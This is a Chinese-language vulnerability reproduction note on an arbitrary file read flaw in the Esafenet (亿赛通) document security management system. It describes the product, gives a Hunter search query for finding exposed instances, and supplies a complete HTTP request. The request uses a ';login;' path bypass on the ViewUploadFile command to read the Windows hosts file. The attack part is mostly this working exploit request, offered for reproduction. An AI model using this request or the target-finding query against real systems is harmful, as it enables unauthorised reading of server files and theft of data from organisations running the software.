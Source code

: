 # 亿赛通电子文档安全管理系统ViewUploadFile存在任意文件读取漏洞

# 一、漏洞简介
亿赛通电子文档安全管理系统是一款电子文档安全加密软件，该系统利用驱动层透明加密技术，通过对电子文档的加密保护，防止内部员工泄密和外部人员非法窃取企业核心重要数据资产，对电子文档进行全生命周期防护，系统具有透明加密、主动加密、智能加密等多种加密方式，用户可根据部门涉密程度的不同（如核心部门和普通门），部署力度轻重不一的梯度式文档加密防护，实现技术、管理、审计进行有机的结合，在内部构建起立体化的整体信息防泄露体系，使得成本、效率和安全三者达到平衡，实现电子文档的数据安全。亿赛通电子文档安全管理系统ViewUploadFile存在任意文件读取漏洞。

# 二、影响版本
+ 亿赛通电子文档安全管理系统

# 三、资产测绘
+ hunter`app.name="ESAFENET 亿赛通文档安全管理系统"`
+ 登录页面

![1693912211487-1ee3eb84-62a3-4c32-806a-6be32537dfb6.png](./img/a1zbrpLQwGdJvau1/1693912211487-1ee3eb84-62a3-4c32-806a-6be32537dfb6-585164.png)

# 四、漏洞复现
```plain
GET /CDGServer3/client/;login;/DecryptApplication?command=ViewUploadFile&filePath=C:/Windows/System32/drivers/etc/hosts&uploadFileId=1&fileName1=hosts HTTP/1.1
Host: 
Cache-Control: max-age=0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=5BEE0014C9CD691F3177A3194EB06C3F
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip, deflate
```

![1705077242906-5bdd6d32-1859-451d-b680-246f8b50ac84.png](./img/a1zbrpLQwGdJvau1/1705077242906-5bdd6d32-1859-451d-b680-246f8b50ac84-884585.png)



> 更新: 2024-04-20 22:01:30  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/kgt5w16dogqflv5q>